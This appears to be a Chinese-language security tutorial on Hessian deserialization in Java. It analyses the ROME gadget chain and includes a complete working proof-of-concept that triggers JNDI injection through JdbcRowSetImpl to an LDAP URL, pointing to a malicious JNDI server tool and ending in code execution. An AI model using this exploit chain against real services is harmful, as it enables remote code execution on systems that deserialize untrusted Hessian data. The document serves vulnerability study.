Hessian反序列化
目录
Hessian反序列化和jdk原生的反序列化不同，其衍生的Gadget也不同。
序列化/反序列化机制
java中的序列化/反序列化大体上分为两类
基于Bean
常见的攻击对象有
- fastjson
- jackson
- Java XMLDecoder
- ....
其核心是在反序列化对象时，其调用getter、setter方法（如fastjson），或者默认构造方法，或者类对象里的其他方法。 这种机制攻击面比基于field更大。
基于field
常见的攻击对象
- java原生序列化/反序列化
- Hessian
- ...
基于Field的方式，一般真正进行序列化/反序列化的核心方法是一个native方法，直接对Field进行赋值操作。
Hessian序列化/反序列化Demo
maven依赖
<dependency>
<groupId>com.caucho</groupId>
<artifactId>hessian</artifactId>
<version>4.0.38</version>
</dependency>
Hessian 比 原生JDK相比，序列化速度更慢，但反序列化所需时间和空间都更小
Apple.java
import java.io.Serializable;
public class Apple implements Serializable {
public void color(){
System.out.println("yellow");
}
public void size(){
System.out.println("10g");
}
}
se.java
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import com.caucho.hessian.io.HessianInput;
import com.caucho.hessian.io.HessianOutput;
public class se {
public static void main(String args[]) throws Exception{
Apple ap = new Apple();
ByteArrayOutputStream a = new ByteArrayOutputStream();
HessianOutput hi = new HessianOutput(a);
hi.writeObject(ap);
byte[] data= a.toByteArray();
ByteArrayInputStream b = new ByteArrayInputStream(data);
HessianInput ho = new HessianInput(b);
Apple apple =(Apple) ho.readObject();
apple.size();
}
}
Gadget——ROME
在工具 marshalsec中支持如下Hessian Gadget，分析一下ROME链吧
- Rome
- XBean
- Resin
- SpringPartiallyComparableAdvisorHolder
- SpringAbstractBeanFactoryPointcutAdvisor
需要以下依赖
<dependency>
<groupId>com.rometools</groupId>
<artifactId>rome</artifactId>
<version>1.7.0</version>
</dependency>
poc如下。我们跟着POC分析
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.lang.reflect.Array;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.util.HashMap;
import com.caucho.hessian.io.HessianInput;
import com.caucho.hessian.io.HessianOutput;
import com.rometools.rome.feed.impl.EqualsBean;
import com.rometools.rome.feed.impl.ToStringBean;
import com.sun.rowset.JdbcRowSetImpl;
public class se {
public static void main(String args[]) throws Exception{
//反序列化时ToStringBean.toString()会被调用，触发JdbcRowSetImpl.getDatabaseMetaData->JdbcRowSetImpl.connect->Context.lookup
String jndiUrl = "ldap://localhost:10099/Sim";
JdbcRowSetImpl rs = new JdbcRowSetImpl();
rs.setDataSourceName(jndiUrl);
rs.setMatchColumn("foo");
//反序列化时EqualsBean.beanHashCode会被调用，触发ToStringBean.toString
ToStringBean item = new ToStringBean(JdbcRowSetImpl.class, rs);
//反序列化时HashMap.hash会被调用，触发EqualsBean.hashCode->EqualsBean.beanHashCode
EqualsBean root = new EqualsBean(ToStringBean.class, item);
//HashMap.put->HashMap.putVal->HashMap.hash
HashMap<Object, Object> s = new HashMap<>();
setFieldValue(s, "size", 2);
Class<?> nodeC;
try {
nodeC = Class.forName("java.util.HashMap$Node");
}
catch ( ClassNotFoundException e ) {
nodeC = Class.forName("java.util.HashMap$Entry");
}
Constructor<?> nodeCons = nodeC.getDeclaredConstructor(int.class, Object.class, Object.class, nodeC);
nodeCons.setAccessible(true);
Object tbl = Array.newInstance(nodeC, 1);
Array.set(tbl, 0, nodeCons.newInstance(0, root, root, null));
setFieldValue(s, "table", tbl);
ByteArrayOutputStream a= new ByteArrayOutputStream();
HessianOutput ho = new HessianOutput(a);
ho.writeObject(s);
byte[] data= a.toByteArray();
ByteArrayInputStream b = new ByteArrayInputStream(data);
HessianInput hi = new HessianInput(b);
hi.readObject(); //触发点
}
public static void setFieldValue ( final Object obj, final String fieldName, final Object value ) throws Exception {
final Field field = getField(obj.getClass(), fieldName);
field.set(obj, value);
}
public static Field getField ( final Class<?> clazz, final String fieldName ) throws Exception {
try {
Field field = clazz.getDeclaredField(fieldName);
if ( field != null )
field.setAccessible(true);
else if ( clazz.getSuperclass() != null )
field = getField(clazz.getSuperclass(), fieldName);
return field;
}
catch ( NoSuchFieldException e ) {
if ( !clazz.getSuperclass().equals(Object.class) ) {
return getField(clazz.getSuperclass(), fieldName);
}
throw e;
}
}
}
我们在 hi.readObject()打下断点跟进看看原理。
因为这个gadget最终是控制lookup参数完成jndi注入，所以对jdk版本也有所限制，这里选择的版本是 8u181配合ldap协议完成jndi注入 并使用此项目一键启动jndi恶意服务端https://github.com/F4ded/EZ-JNDI

从poc来看，过程无非就3步：
- HashMap.put->HashMap.putVal->HashMap.hash→EqualsBean.hashCode->EqualsBean.beanHashCode
- EqualsBean.beanHashCode被调用，触发ToStringBean.toString
- ToStringBean.toString()被调用，触发JdbcRowSetImpl.getDatabaseMetaData->JdbcRowSetImpl.connect->Context.lookup
步骤1
最开始的步骤，就是从readObject到HashMap.hash
我们跟进readObject方法，发现它会根据序列化对象的类型来选择不同的处理方法 由于Hessian序列化时将结果处理成了Map，所以处理的第一个序列化对象总是map对象，这是Hessian反序列化一个特殊的机制。

当处理到我们自己定义的HashMap时（也就是poc中的s），它会按先后顺序反序列化key、value值，然后依次传入Hashmap.put方法进行处理

然后经由Hashmap.putVal处理


随后调用key的hashcode方法，由于key是EqualsBean，所以会调用EqualsBean.hashCode()，跟进后会发现调用EqualsBean.beanHashCode()


发现会调用this.obj.toString()
步骤2
由于我们在poc向EqualsBean构造方法传入了ToStringBean对象item，所以this.obj就是一个ToStringBean对象

所以this.obj.toString() 即ToStringBean.toString


跟进后可以发现它会遍历我们在ToStringBean里传入的类（poc里传入的是JdbcRowSetImpl）的所有属性和方法，然后无通过反射参调用所有方法。 其中就会调用到JdbcRowSetImpl的无参方法：getDatabaseMetaData
步骤3
我们跟进getDatabaseMetaData

发现会调用connect方法，继续跟进，发现jndi注入，lookup参数是可控的：我们在poc中构建JdbcRowSetImpl对象时通过setDataSourceName方法设置

继续跟，弹计算器了
